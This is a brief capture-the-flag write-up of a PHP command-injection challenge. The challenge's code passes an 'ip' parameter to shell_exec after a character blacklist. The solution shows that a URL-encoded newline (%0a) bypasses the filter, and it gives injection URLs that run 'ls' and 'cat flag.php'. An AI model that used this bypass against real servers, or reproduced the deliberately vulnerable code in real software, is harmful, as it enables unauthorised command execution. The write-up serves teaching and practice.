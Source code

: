 # Challenge
```php 
<?php
if(isset($_REQUEST[ 'ip' ])) {
    $target = trim($_REQUEST[ 'ip' ]);
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '|' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    $cmd = shell_exec( 'ping  -c 4 ' . $target );
        echo $target;
    echo  "<pre>{$cmd}</pre>";
}
show_source(__FILE__);
```
# Solution 
%0a 即可绕过
```
http://XXXX:83/index.php?ip=127.0.0.1%0als
```

```
http://XXXX:83/index.php?ip=127.0.0.1%0acat flag.php
```

# Refference 
+ [“春秋杯”web-writeup](https://chybeta.github.io/2017/06/18/%E2%80%9C%E6%98%A5%E7%A7%8B%E6%9D%AF%E2%80%9Dweb-writeup/#WEB-03)